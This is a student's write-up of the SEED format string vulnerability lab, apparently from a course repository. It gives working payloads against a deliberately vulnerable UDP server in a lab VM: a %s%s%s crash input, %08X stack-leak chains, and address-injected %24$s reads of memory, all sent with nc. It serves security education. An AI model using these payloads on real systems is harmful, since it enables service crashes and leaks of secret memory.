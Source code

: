 ```yaml
---
title:  Format String Vulnerability Lab 
author: Xinyi Li
date: \today{}
---
```


# Task 1

Use the default `DUMMY_SIZE` as 100.

```bash
gcc -z execstack -o server server.c
```

Then clone the current VM according to [this manual](https://seedsecuritylabs.org/Labs_16.04/Documents/SEEDVM_VirtualBoxManual.pdf) as the server, whose IP address is `10.0.2.4`. While the client VM has an IP address as `10.0.2.15`.


On the server VM run

```bash
sudo ./server
```
Immediately, it is blocked with
```
The address of the input array: 0xbffff0e0
The address of the secret: 0x08048870
The address of the 'target' variable: 0x0804a044
The value of the 'target' variable (before): 0x11223344
```

On the client VM run

```bash
echo hello | nc -u 10.0.2.4 9090
```

And the server VM prints:
```
The ebp value inside myprintf() is: 0xbfffee28
hello
The value of the 'target' variable (after): 0x11223344
```

# Task 2

```bash
python -c 'print "AAAA"+"%08X."*40' > badfile
nc -u 10.0.2.4 9090 < badfile
```

1. 0xbffff0e0+150 = 0xBFFFF176
2. 0xbffff038+4 = 0xBFFFF03C
3.

# Task 3

send any illegal format string to the server. the server will crash.

For instance,

```bash
echo %s%s%s | nc -u 10.0.2.4 9090
```

The server will print an error message (`Segmentation fault`) and exit.

# Task 4

## Task 4 A

send a long `%x.` series. The server prints

```
0.64.b7fff918.804a014.b7fe97a2.b7fffad0.bffff0e0.1.bffff038.
```
`bffff038` is the address of `ebp` in `myprintf`.

## Task 4 B

```bash
python -c 'print "\x30\xee\xff\xbf%24$s"' > badfile
nc -u 10.0.2.4 9090 < badfile
```

python -c 'print "\x08\x04\x88\x70%24$s"' > badfile
0xbfffee30







